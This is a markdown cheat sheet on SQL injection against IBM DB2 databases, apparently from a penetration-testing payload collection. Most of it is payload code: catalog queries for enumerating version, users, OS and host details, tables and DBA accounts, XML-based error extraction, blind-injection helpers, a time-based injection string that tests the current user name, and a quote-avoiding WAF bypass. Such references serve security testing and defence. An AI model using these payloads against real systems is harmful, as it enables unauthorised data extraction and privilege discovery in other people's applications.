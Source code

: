 # DB2 Injection

> IBM DB2 is a family of relational database management systems (RDBMS) developed by IBM. Originally created in the 1980s for mainframes, DB2 has evolved to support various platforms and workloads, including distributed systems, cloud environments, and hybrid deployments. 


## Summary

* [DB2 Comments](#db2-comments)
* [DB2 Default Databases](#db2-default-databases)
* [DB2 Enumeration](#db2-enumeration)
* [DB2 Methodology](#db2-methodology)
* [DB2 Error Based](#db2-error-based)
* [DB2 Blind Based](#db2-blind-based)
* [DB2 Time Based](#db2-time-based)
* [DB2 WAF Bypass](#db2-waf-bypass)
* [DB2 Accounts and Privileges](#db2-accounts-and-privileges)
* [References](#references) 


## DB2 Comments	

| Type                       | Description                       |
| -------------------------- | --------------------------------- |
| `--`                       | SQL comment                       |


## DB2 Default Databases

| Name        | Description                                                           |
| ----------- | --------------------------------------------------------------------- |
| SYSIBM      | Core system catalog tables storing metadata for database objects.     |
| SYSCAT      | User-friendly views for accessing metadata in the SYSIBM tables.      |
| SYSSTAT     | Statistics tables used by the DB2 optimizer for query optimization.   |
| SYSPUBLIC   | Metadata about objects available to all users (granted to PUBLIC).    |
| SYSIBMADM   | Administrative views for monitoring and managing the database system. |
| SYSTOOLs    | Tools, utilities, and auxiliary objects provided for database administration and troubleshooting. |


## DB2 Enumeration

| Description      | SQL Query |
| ---------------- | ----------------------------------------- |
| DBMS version     | `select versionnumber, version_timestamp from sysibm.sysversions;` |
| DBMS version     | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo` |
| DBMS version     | `select getvariable('sysibm.version') from sysibm.sysdummy1` |
| DBMS version     | `select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo` |
| DBMS version     | `select service_level,bld_level from sysibmadm.env_inst_info` |
| Current user     | `select user from sysibm.sysdummy1` |
| Current user     | `select session_user from sysibm.sysdummy1` |
| Current user     | `select system_user from sysibm.sysdummy1` |
| Current database | `select current server from sysibm.sysdummy1` |
| OS info          | `select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` |


## DB2 Methodology

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List databases   | `SELECT distinct(table_catalog) FROM sysibm.tables` |
| List databases   | `SELECT schemaname FROM syscat.schemata;` |
| List columns     | `SELECT name, tbname, coltype FROM sysibm.syscolumns` |
| List tables      | `SELECT table_name FROM sysibm.tables` |
| List tables      | `SELECT name FROM sysibm.systables` |
| List tables      | `SELECT tbname FROM sysibm.syscolumns WHERE name='username'` |


## DB2 Error Based

```sql
-- Returns all in one xml-formatted string
select xmlagg(xmlrow(table_schema)) from sysibm.tables

-- Same but without repeated elements
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)

-- Returns all in one xml-formatted string.
-- May need CAST(xml2clob(… AS varchar(500)) to display the result.
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables 
```


## DB2 Blind Based

| Description      | SQL Query |
| ---------------- | ------------------------------------------ |
| Substring        | `select substr('abc',2,1) FROM sysibm.sysdummy1` |
| ASCII value      | `select chr(65) from sysibm.sysdummy1`     |
| CHAR to ASCII    | `select ascii('A') from sysibm.sysdummy1`  |
| Select Nth Row   | `select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only` |
| Bitwise AND      | `select bitand(1,0) from sysibm.sysdummy1` |
| Bitwise AND NOT  | `select bitandnot(1,0) from sysibm.sysdummy1` |
| Bitwise OR       | `select bitor(1,0) from sysibm.sysdummy1`  |
| Bitwise XOR      | `select bitxor(1,0) from sysibm.sysdummy1` |
| Bitwise NOT      | `select bitnot(1,0) from sysibm.sysdummy1` |


## DB2 Time Based

Heavy queries, if user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. 

```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
```


## DB2 WAF Bypass

### Avoiding Quotes

```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```


## DB2 Accounts and Privileges

| Description      | SQL Query |
| ---------------- | ------------------------------------ |
| List users | `select distinct(grantee) from sysibm.systabauth` |
| List users | `select distinct(definer) from syscat.schemata` |
| List users | `select distinct(authid) from sysibmadm.privileges` |
| List users | `select grantee from syscat.dbauth` |
| List privileges | `select * from syscat.tabauth` |
| List privileges | `select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies` |
| List DBA accounts | `select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'` |
| List DBA accounts | `select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = 'Y' or SYSADMAUTH = 'G'` |
| Location of DB files | `select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'` |


## References

- [DB2 SQL injection cheat sheet - Adrián - May 20, 2012](https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/)
- [Pentestmonkey's DB2 SQL Injection Cheat Sheet - @pentestmonkey - September 17, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)